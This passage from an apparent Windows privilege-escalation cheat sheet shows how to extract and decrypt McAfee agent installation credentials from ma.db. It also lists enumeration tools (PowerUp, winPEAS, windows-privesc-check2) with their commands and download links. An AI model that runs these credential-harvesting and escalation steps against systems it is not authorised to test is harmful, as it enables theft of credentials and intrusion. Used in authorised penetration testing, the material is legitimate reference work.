 -> Identify  
```cmd
dir /s *.db
```
-> McAfee Enterprise Endpoint Security - Credentials used during installation  

```powershell
C:\ProgramData\McAfee\Agent\DB\ma.db
sqlitebrowser ma.db
python2 mcafee_sitelist_pwd_decrypt.py <AUTH PASSWD VALUE>
```
- https://raw.githubusercontent.com/funoverip/mcafee-sitelist-pwd-decryption/master/mcafee_sitelist_pwd_decrypt.py

## Windows Enumeration Tools
-> PowerUp.ps1  
```powershell
. .\PowerUp.ps1
Invoke-AllChecks
```
- https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1  

-> winPEASany.exe
```powershell
winPEASany.exe
```
- https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS  

-> windows-privesc-check2.exe  
```powershell
windows-privesc-check2.exe --dump -G
```
- https://github.com/pentestmonkey/windows-privesc-check
